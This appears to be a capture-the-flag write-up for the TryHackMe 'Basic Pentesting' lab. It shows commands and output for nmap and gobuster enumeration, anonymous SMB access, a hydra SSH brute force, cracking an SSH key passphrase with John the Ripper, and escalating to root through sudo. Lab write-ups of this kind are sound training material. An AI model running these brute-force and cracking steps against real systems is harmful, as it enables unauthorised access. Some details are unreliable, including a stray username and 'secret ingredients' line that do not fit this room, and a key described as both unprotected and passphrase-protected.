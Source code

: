 # TryHackMe: Basic Pentesting
https://tryhackme.com/room/basicpentestingjt

## 1. Network Enumeration

Use `nmap` to run a quick port scan to see what services are running on the box:

```
$ nmap 10.10.161.1

Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-26 13:50 CET
Nmap scan report for 10.10.161.1
Host is up (0.23s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 29.93 seconds
```

We see that this box is running the following services: SSH, HTTP, NetBIOS, and SMB. Let's take a look at the HTTP server.

## 2. Web Server

The home page of the web server tells us that we need to find three secret ingredients, but doesn't appear to show any other useful information. However, if we view source, we can see Rick's username: `R1ckRul3s`! We'll write that down for later, but for now lets start `gobuster` to see if we can find any hidden web pages.

```
$ gobuster -u http://<ip-address> -w /usr/share/wordlists/dirb/common.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://<ip-address>/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2024/01/22 19:19:01 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/development (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
=====================================================
2024/01/22 19:20:31 Finished
=====================================================
```

We found a `/development` page, let's check it out. There are a couple files here that give us some important information:

- The SMB service has been configured
- There are users that go by K and J
- J has a weak password

Let's move on to the SMB service for now.

## 3. SMB

Let's first list the file shares that are available:

```
$ smbclient -L 10.10.161.1
Password for [WORKGROUP\user]:

	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
```

Let's try logging into Anonymous.

```
$ smbclient \\\\10.10.161.1\\Anonymous
Password for [WORKGROUP\samwise]:
Try "help" to get a list of possible commands.      
smb: \> dir
  .                                   D        0  Thu Apr 19 19:31:20 2018
  ..                                  D        0  Thu Apr 19 19:13:06 2018
  staff.txt                           N      173  Thu Apr 19 19:29:55 2018

		14318640 blocks of size 1024. 11094428 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)

```

We found a file! There isn't much info here, but we do learn the real names of K and J: Kay and Jan. Since Jan has a weak password, we can try to brute force our way into SSH using `hydra`.

## 4. Hydra

```
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.161.1 ssh -t 64
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-26 14:30:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://10.10.161.1:22/
[STATUS] 769.00 tries/min, 769 tries in 00:01h, 14343722 to do in 310:53h, 64 active
[22][ssh] host: 10.10.161.1   login: jan   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 63 final worker threads did not complete until end.
[ERROR] 63 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-26 14:31:29
```

We found a password! Now let's login to SSH as jan.

## 5. Privilege Escalation

After loging in, there doesn't seem to be anything interesting in our home directory. We aren't a member of any groups and we have no sudo privileges. Let's checkout the other home directory: `/home/kay`. Kay has an unprotected SSH private key saved: `/home/kay/.ssh/id_rsa`. We can use this key to SSH in as `kay`.

Unfortunately Kay's SSH key is protected with a passphrase. We'll have to attempt to crack it using John the Ripper. First step is to convert the SSH key into a hash file that John the Ripper can consume:

```
$ python /opt/john/run/ssh2john.py id_rsa > id_rsa.john
```

Now we can use John the Ripper with the rockyou wordlist to try to crack the passphrase:

```
$ john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
<redacted>          (id_rsa)     
1g 0:00:00:00 DONE (2024-01-26 14:41) 6.250g/s 517200p/s 517200c/s 517200C/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Success! Now let's try to SSH in again as Kay.

## 6. Privilege Escalation Part 2

Now that we're logged in as Kay, we need to look around for new attack vectors for privilege escalation. Right away I notice an interesting file in Kay's home directory: `pass.bak`. This file looks like it contains Kay's plaintext password! This probably won't help us though, as we're already looged in as Kay.

Let's check more attack vectors. Can we use `sudo`? Turns out we can, be we need Kay's password:

```
$ sudo -l
[sudo] password for kay: <redacted>
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```

Wow! Turns out we can run any command as `root`. Let's head over to `/root` and find the last flag.

## 7. Root

To become `root`, we can run the following:

```
kay@basic2:~$ sudo su
root@basic2:/home/kay# whoami
root
```

The root flag is located at `/root/flag.txt`.